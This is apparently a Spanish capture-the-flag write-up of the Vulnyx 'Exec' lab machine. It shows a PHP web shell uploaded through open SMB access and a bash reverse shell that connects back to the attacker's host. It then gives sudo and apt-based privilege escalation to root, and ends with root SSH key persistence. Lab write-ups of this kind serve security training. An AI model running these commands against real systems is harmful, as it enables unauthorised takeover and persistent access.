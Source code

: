 ```yaml
---
title: Vulnyx - Exec
author: estx
date: 2024-04-25 17:51:00 +0800
categories: [Writeup, Vulnyx, Low]
tags: ['Linux', 'SMB', 'File Upload', 'binary abusing']
math: true
mermaid: true
image:
  path: /assets/images/Vulnyx/Low/Exec/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Exec Machine Logo
---
```


Máquina Linux de nivel **Low** de Vulnyx.

Técnicas usadas: **File Upload, Binary Abusing**

### Fase de Reconocimiento 🧣

Como primer punto, identificamos la dirección IP de la **`Máquina Vulnyx`**

```bash
root@kali> arp-scan -I eth0 --local --ignoredups

<SNIP>
192.168.100.63	08:00:27:c6:4f:1d	PCS Systemtechnik GmbH
```

> Con esto identificamos todos los dispositivos en nuestra red local.

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n 192.168.100.63 -oG puertos`**

  ![](/assets/images/Vulnyx/Low/Exec/01-ports.png)

b. Vemos la versiones de los servicios que se están ejecutando

* **`nmap -p22,80,139,445 -sCV <IP> -oN versiones`**

  ![](/assets/images/Vulnyx/Low/Exec/02-versions.png)


c. En el **puerto 80** no hay algo interesante (Solo la página por defecto), por lo que, investigamos todo sobre el servicio **SMB** (Puerto 445)

```bash
# Primero listamos los directorios disponibles
❯ smbclient -L \\192.168.100.63

Password for [WORKGROUP\root]: <ENTER>

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        server          Disk      Developer Directory
        IPC$            IPC       IPC Service (Samba 4.17.12-Debian)
        nobody          Disk      Home Directories


# Vemos que el directorio "server" puede ser accedido, por lo que, nos conectamos y listamos los recursos disponibles

❯ smbclient \\\\192.168.100.63\\server

Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Apr 25 17:20:01 2024
  ..                                  D        0  Mon Apr 15 10:04:12 2024
  index.html                          N    10701  Mon Apr 15 10:04:31 2024
```

* Si nos decargamos el archivo **index.html** con el comando `get index.html` nos daremos cuenta que es el archivo por defecto del puerto 80. Intuimos entonces que probablemente los archivos de este directorio se ven reflejados en el servicio HTTP. Intentaremos subir un archivo `.php` para ejecutar comandos.

```bash
❯ cat secret.php

<?php
	system($_GET['cmd']);
?>
```

> La función `system` nos permite ejecutar comandos en el sistema. Con **`$_GET['cmd']`** lo que hacemos es indicar que el comando que se va a ejecutar lo indicaremos desde la **URL**. **Ej.** http://192.168.100.63/secret.php?cmd=[COMANDO]
{: .prompt-info }

* Por último, subimos el archivo **secret.php** al servicio SMB con **`put secret.php`**

d. Ahora con **cURL** podemos ejecutar comando en la máquina víctima

```bash
❯ curl -s -X GET "http://192.168.100.63/secret.php?cmd=hostname"
exec
```

* Ahora nos entablamos un reverse shell 👨‍💻

```bash
❯ cat index.html

#!/bin/bash

bash -i >& /dev/tcp/192.168.100.55/4444 0>&1
---------------------------------------------

❯ python -m http.server 80

---------------------------------------------

❯ nc -lvnp 4444
```

> Con esto lo que hacemos es servir el archivo `index.html`, para que al ser requerido por la máquina víctima se ejecute el código **.sh**

* Hacemos que la máquina víctima solicite el archivo

![](/assets/images/Vulnyx/Low/Exec/03-exploit.png)

![](/assets/images/Vulnyx/Low/Exec/04-reverse.png)



### Escalada de Privilegios 💹

1. Hacemos el tratamiento de la TTY para trabajar de manera más cómoda con la reverse shell

```bash
www-data@exec:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@exec:/var/www/html$ ^Z
[1]  + 25443 suspended  nc -lvnp 4444
❯ stty raw -echo;fg
[1]  + 25443 continued  nc -lvnp 4444
                                     reset xterm


www-data@exec:/var/www/html$ export TERM=xterm-256color
www-data@exec:/var/www/html$ source /etc/skel/.bashrc 
www-data@exec:/var/www/html$
```


2. Miramos los permisos a nivel de sudoers de este usuario

```bash
www-data@exec:/var/www/html$ sudo -l

User www-data may run the following commands on exec:
    (s3cur4) NOPASSWD: /usr/bin/bash
```

* Vemos que podemos ejecutar una **bash** como el usuario `s3cur4`

```bash
www-data@exec:/var/www/html$ sudo -u s3cur4 /usr/bin/bash
s3cur4@exec:/var/www/html$ whoami
s3cur4
```

3. Ahora vemos los permisos del usuario `s3cur4`

```bash
s3cur4@exec:/var/www/html$ sudo -l

User s3cur4 may run the following commands on exec:
    (root) NOPASSWD: /usr/bin/apt
```

* Vemos en [GTFOBins](https://gtfobins.github.io/gtfobins/apt/#shell) una forma de escalar privilegio ejecutando **apt**

```bash
s3cur4@exec:/var/www/html$ sudo -u root /usr/bin/apt changelog apt
Get:1 https://metadata.ftp-master.debian.org apt 2.6.1 Changelog [505 kB]
Fetched 505 kB in 2s (241 kB/s)
# Después de ejecutar el comando, se abrirá una pantalla en la cual debemos escribir !/bin/bash
root@exec:/var/www/html# 
```


### Extras 🌟

1. Podemos autenticarnos mediante **SSH** directamente a la máquina víctima:

* Primero, habilitamos el permiso para que **root** pueda autenticarse a través de SSH. Quitamos el **#** y colocamos un **yes**

```bash
root@exec:~# cat /etc/ssh/sshd_config

...
PermitRootLogin yes
...
```

* Ahora, generamos un par de claves RSA en nuestra máquina host

```bash
❯ ssh-keygen

# Asignamos el permiso 600 a la clave id_rsa privada
❯ chmod 600 id_rsa
```

* Copiamos el contenido de la clave id_rsa pública y lo ponemos en un archivo **authorized_keys** en el directorio /root/.ssh

```bash
root@exec:~/.ssh# echo -n 'ssh-ed25519 ... root@kali' > authorized_keys
```


* Finalmente, nos podemos autenticar directamente por ssh como el usuario **root**

```bash
❯ ssh root@192.168.100.63 -i id_rsa
root@exec:~#
```
